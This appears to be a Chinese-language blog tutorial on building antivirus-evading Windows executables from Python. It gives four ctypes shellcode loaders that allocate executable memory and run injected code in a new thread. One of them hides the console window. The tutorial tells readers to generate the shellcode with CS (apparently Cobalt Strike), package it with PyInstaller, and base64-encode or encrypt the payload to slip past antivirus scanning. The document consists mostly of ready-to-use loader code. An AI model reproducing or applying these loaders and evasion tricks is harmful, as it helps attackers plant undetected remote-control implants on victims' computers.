


# 0x00 简介

其实用python go等语言打包成exe来免杀非常不错，这里我使用python 其他语言类似，这种方式就是打包的文件很大

Python打包工具有三种py2exe、PyInstaller和cx_Freeze,我这里使用的是PyInstaller。

其实用python来加载shellcode 在2012之前国外都有人发过文章了,各种加载方式,有些但是执行不成功，所以我这里整理了几种


# 0x01 shellcode->python

python 执行shellcode主要用到模块ctypes来使用和C兼容的数据类型 以下是网络流传的执行shellcode的代码

1.

```
#!/usr/bin/python
import ctypes

shellcode = bytearray("\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b")

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
 
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))
 
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))

```

2.


```
from ctypes import *

shellcode = ""
shellcode_one = create_string_buffer(shellcode, len(shellcode))
shellcode_run = cast(shellcode_one, CFUNCTYPE(c_void_p))
shellcode_run()

```

3.

```
from ctypes import *
import ctypes
buf =  ""
#libc = CDLL('libc.so.6')
PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4
def executable_code(buffer):
    buf = c_char_p(buffer)
    size = len(buffer)
    addr = libc.valloc(size)
    addr = c_void_p(addr)
    if 0 == addr: 
        raise Exception("Failed to allocate memory")
    memmove(addr, buf, size)
    if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
        raise Exception("Failed to set protection on buffer")
    return addr
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)
whnd = ctypes.windll.kernel32.GetConsoleWindow()   
if whnd != 0:
       if 1:
              ctypes.windll.user32.ShowWindow(whnd, 0)   
              ctypes.windll.kernel32.CloseHandle(whnd)
memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)),0x40,ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),
                                     buf,
                                     ctypes.c_int(len(shellcode)))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()

```

4.

```
import ctypes

shellcode =  ""

rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(rwxpage, ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)

```


用CS生成python shellcode 写入后运行成功上线就可以打包成exe了，这里用PyInstaller为例 

> PyInstaller --console --onefile shellcode_encoder.py




# 0x02 encodeshellcode->python

通过简单的base64编码来绕过AV的查杀

```
import ctypes
import base64

encode_shellcode = "/OiJAAAAYInlMdJki1Iwi1IMi1IUi3IoD7dKJjH/McCsPGF8Aiwgwc8NAcfi8FJXi1IQi0I8AdCL"

shellcode = base64.b64decode(encode_shellcode)

rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(rwxpage, ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)

```

当然你也可以把整个代码base64加密然后用 `exec`  来执行 比如`exec(base64.b64decode("encode"))`

自己写个简单的加密很容易就达到绕过AV查杀的目的,并不是很推荐使用base64可以使用密匙来对称加密。



# 0x03 文末


### 本文如有错误，请及时提醒，以免误导他人
